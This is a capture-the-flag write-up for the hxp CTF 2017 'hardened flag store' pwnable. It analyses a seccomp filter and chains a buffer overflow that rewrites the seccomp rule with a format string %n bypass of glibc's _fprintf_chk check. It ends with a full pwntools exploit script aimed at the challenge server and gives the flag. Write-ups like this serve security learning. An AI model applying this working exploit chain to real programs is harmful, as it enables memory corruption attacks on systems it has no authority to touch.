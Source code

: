 ```yaml
---
type: ctf
title: hxp CTF 2017 - hardened flag store 
tags: [Pwnable, Seccomp]
date: 2017-11-20
author: Eno Leriand
---
```


The program will read a secret string from "secret.txt" and store the string address on stack. Then it will use seccomp to create a whitelist of syscalls. We can analyze the filter by using [seccomp-tools](https://github.com/david942j/seccomp-tools):  

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x06 0x00 0x00 0x00000000  return KILL
```

So now the program are only allowed to use the following system calls: `exit`, `read`, `write`, `open` and `close`.  

After that the program will do the following ( pseudo code ) :  

```c
int cnt = 16;
int has_seccomp = 0;
while (cnt--)
{
    read(0, input, 96); // read user input
    if (!has_seccomp) init_seccomp(); // set up seccomp rule
    len = strlen(secret_string) + 1;
    for ( i = 0LL; ; i++ ) // check if input == secret_string
    {
        if ( len - 1 == i )
            goto LABEL_19;
        if ( secret_string[i] != input[i] )
            break;
    }
    puts("Wrong secret :/");
    if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
    _fprintf_chk(stderr, 1LL, input); // <-- format string vuln
    has_seccomp = 1;
}
```

We can spot a format string vulnerability @ line 19. Although the secret string's address is stored on stack, however the output of `_fprintf_chk` is set to stderr, so we can't use `%s` to leak the secret string.  

But there's still one way to bypass the check. At line 16:  

```c
if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
```

If we can overwrite the first character of the secret string to a null byte, and input a random string, both `strlen(secret_string)` and `i` will be `0`, thus bypass the check and will print out the flag.  

However this will require us to use the `%n` format string payload -- which in this case will be blocked by the seccomp filter:  

```
$ ./flag_store
%n
Wrong secret :/
[1]    5295 invalid system call  ./flag_store
```

Fortunately my teammate found that there's a buffer overflow vulnerability while reading the user input. We can input at most 96 chars to the buffer, while its size is only 32. Moreover, this make us able to overwrite the seccomp rule ! So then we overwrite the seccomp rule with a bunch of null bytes and send the `%n` character:

```
[*] Sending null bytes
[*] Sending fmt payload
[*] Switching to interactive mode
Wrong secret :/
Wrong secret :/
*** %n in writable segment detected ***
[*] Got EOF while reading in interactive
```

OK, so we successfully overwrite the seccomp rule, but still the `%n` payload was blocked by `_fprintf_chk`, which is a more secure version of `fprintf`. At this point I started to think that maybe we need to write some seccomp rules to bypass the format string check.

And so I started reading the [glibc source code](https://code.woboq.org/userspace/glibc/stdio-common/vfprintf.c.html#__readonly_area):

```c
................
    {                                                                      \
      extern int __readonly_area (const void *, size_t)                      \
        attribute_hidden;                                              \
      readonly_format                                                      \
        = __readonly_area (format, ((STR_LEN (format) + 1)              \
                                    * sizeof (CHAR_T)));              \
    }                                                                      \
  if (readonly_format < 0)                                              \
    __libc_fatal ("*** %n in writable segment detected ***\n");              \
}  
```

Hmmmm, looks like we'll have to make `readonly_format >= 0` so it won't call `__libc_fatal ("*** %n in writable segment detected ***\n");`. Let's trace into the [__readonly_area() function](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/readonly-area.c.html#__readonly_area):

```c
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
         available to this process (e.g., because it runs in a chroot
         environment.  Don't fail in this case.  */
      if (errno == ENOENT
          /* The kernel has a bug in that a process is denied access
             to the /proc filesystem if it is set[ug]id.  There has
             been no willingness to change this in the kernel so
             far.  */
          || errno == EACCES)
        return 1;
      return -1;
    }
    ...................
```

Ah ha ! We can see that `__readonly_area` will call `fopen()`, and see if its `errno` is equals to `EACCES` or `ENOENT`. **If so, it will return 1** !! Since we can write our own seccomp rule, we can totally make this happen !

So first we create our own seccomp rule:

```
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok # check the 3rd arg of open()
magic:
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```

Notice that in order to make `open("flag.txt", 0x80000)` ( in the `openflag()` function ) works normally, we'll have to add the rule `A == 0x1b6 ? magic : ok`. This indicates that if the 3rd argument of `open()` equals to `0x1b6`, return `ERRNO(13)`, otherwise allow the system call. I wrote this rule because I found that when `__readonly_area()` calls `fopen ("/proc/self/maps", "rce");`, the 3rd argument of `open()` was exactly `0x1b6`.  

By using the [asm](https://github.com/david942j/seccomp-tools#asm) feature of the seccomp-tools, we can generate the raw bytes of our seccomp rule:

```
$ cat ./rule 
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok
magic:
return ERRNO(13)
ok:
return ALLOW

$ seccomp-tools asm ./rule
" \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"

```

At last we apply our seccomp rule, exploit the format string vulnerability to bypass the check and get the flag:

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

# from brucepwn import *

HOST = "35.198.105.104"
PORT = 10000
ELF_PATH = "./flag_store"
LIBC_PATH = ""

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = elf.libc if not LIBC_PATH else ELF(LIBC_PATH)
if not libc: log.warning("Failed to load libc")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = elf.process() # elf.process(argv=[argv1, argv2,...])

    payload = "\x00"*0x20
    payload += " \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
    print "len:", len(payload)
    assert len(payload) <= 96
    r.sendline(payload)
    time.sleep(1)
    r.sendline("%128c%128c%hhn")
    time.sleep(1)
    r.sendline("1")
    r.interactive()


```

flag: `hxp{d0n7_w0rry_glibc_1_571ll_l0v3_y0u}`


First blood on this one ! WOOHOO ! 😎
